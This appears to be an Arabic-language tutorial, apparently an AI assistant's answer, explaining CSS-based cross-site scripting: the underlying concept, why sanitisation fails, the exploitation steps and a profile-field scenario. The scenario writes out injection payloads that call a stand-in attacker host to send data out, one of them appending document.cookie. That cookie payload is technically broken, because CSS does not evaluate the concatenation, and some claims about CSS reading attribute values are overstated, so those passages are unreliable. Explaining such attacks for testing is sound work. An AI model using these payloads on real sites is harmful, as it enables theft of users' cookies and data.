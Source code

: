 بناءً على طلبك لشرح **الحقن المستخدمة في XSS القائم على CSS (CSS-Based XSS)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه الخطوة في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاستغلال ثغرة XSS باستخدام تقنيات **CSS**، مع التركيز على استغلال خصائص وتعبيرات CSS لتنفيذ JavaScript أو استخراج بيانات حساسة. سيتم تقسيم المحاولات إلى فئات (مثل استخدام تعبيرات CSS، خصائص الخلفية، وتسريب البيانات عبر CSS). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: الحقن المستخدمة في XSS القائم على CSS (CSS-Based XSS)

### ما المقصود؟
الحقن المستخدمة في **XSS القائم على CSS** هي تقنيات تستغل خصائص أو تعبيرات CSS (Cascading Style Sheets) لتنفيذ شيفرات JavaScript أو استخراج بيانات حساسة من صفحة ويب دون الحاجة إلى وسوم HTML تقليدية مثل `<script>` أو `<img>`. تُستخدم هذه الحقن في سياقات **XSS المنعكس**، **XSS المخزن**، أو **XSS القائم على DOM**، حيث يُسمح بإدخال CSS (مثل في حقل نصي، ملف CSS، أو خاصية `style`) دون تنظيف كافٍ. تشمل هذه الحقن استخدام خصائص CSS مثل `background-image`، `content`، أو تعبيرات قديمة مثل `expression()` لتنفيذ JavaScript، أو تسريب بيانات مثل قيم السمات أو النصوص عبر طلبات شبكة.

### لماذا يعمل؟
- **دعم المتصفحات لـ CSS**: تدعم المتصفحات خصائص CSS التي يمكن أن تتضمن روابط URL (مثل `background-image`) أو تعبيرات ديناميكية (مثل `expression()` في Internet Explorer القديم)، مما يتيح تنفيذ JavaScript أو إرسال بيانات.
- **ضعف التنظيف**: العديد من التطبيقات لا تُنظف إدخالات CSS بشكل صحيح، خاصة إذا سُمح بإدخال أنماط في حقول نصية، خصائص `style`، أو ملفات CSS.
- **تسريب البيانات عبر CSS**: يمكن لـ CSS الوصول إلى قيم السمات (مثل `value` أو `data-*`) أو النصوص باستخدام خصائص مثل `content` أو تقنيات مثل CSS selectors، وإرسالها عبر طلبات URL.
- **تجاوز الفلاتر**: تُستخدم تقنيات CSS لتجاوز فلاتر XSS التي تحظر وسوم HTML/JavaScript التقليدية، حيث تُعتبر CSS "آمنة" نسبيًا في بعض السياقات.
- **التفاعل مع DOM**: يمكن لـ CSS التفاعل مع DOM عبر selectors أو خصائص ديناميكية، مما يتيح استخراج بيانات حساسة (مثل رموز الجلسة أو قيم الإدخال).

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة CSS تحتوي على تعبيرات أو خصائص ضارة في نقطة إدخال عرضة لـ XSS (مثل حقل نصي، خاصية `style`، معلمة URL، أو ملف CSS).
- تُصمم الحقنة لتنفيذ JavaScript مباشرة (مثل عبر `expression()` في المتصفحات القديمة) أو لتسريب بيانات عبر طلبات شبكة (مثل `background-image` مع URL يحتوي على بيانات).
- تُستخدم الحقنة لأغراض مثل:
  - تنفيذ JavaScript لسرقة ملفات تعريف الارتباط أو التلاعب بالصفحة.
  - استخراج قيم السمات أو النصوص (مثل رموز CSRF أو قيم حقول الإدخال).
  - تتبع تفاعلات المستخدم (مثل النقرات أو حركة المؤشر).
- يتم مراقبة خادم خارجي (للبيانات المسربة) أو استجابة المتصفح لتأكيد التنفيذ:
  - **نجاح (True)**: الشيفرة تُنفذ (مثل تنفيذ JavaScript أو إرسال بيانات إلى خادم المهاجم).
  - **فشل (False)**: لا يتم التنفيذ بسبب فلاتر، قيود CSP، أو عدم دعم المتصفح.
- تُكيَّف الحقن لتجاوز القيود (مثل استخدام خصائص CSS غير شائعة أو تعتيم الشيفرة).

### السناريو
لنفترض أنك تختبر موقعًا إلكترونيًا يحتوي على حقل وصف في ملف تعريف المستخدم يسمح بإدخال CSS عبر خاصية `style` أو حقل نصي يُعرض كنمط. لاحظت أن الموقع لا يُنظف إدخالات CSS بشكل صحيح، ويمكن إدخال شيفرة مثل `<div style="background-image:url('http://attacker.com/log')">` لإرسال طلب إلى خادمك. تريد الآن استخدام حقنة CSS مثل `<div style="background-image:url('http://attacker.com/log?d='+document.cookie)">` أو تقنية تسريب بيانات عبر selectors لاستخراج بيانات حساسة مثل قيم حقول الإدخال أو رموز CSRF. إذا تلقى خادمك البيانات أو نُفذت الشيفرة، فهذا يؤكد وجود ثغرة XSS قائمة على CSS.

---
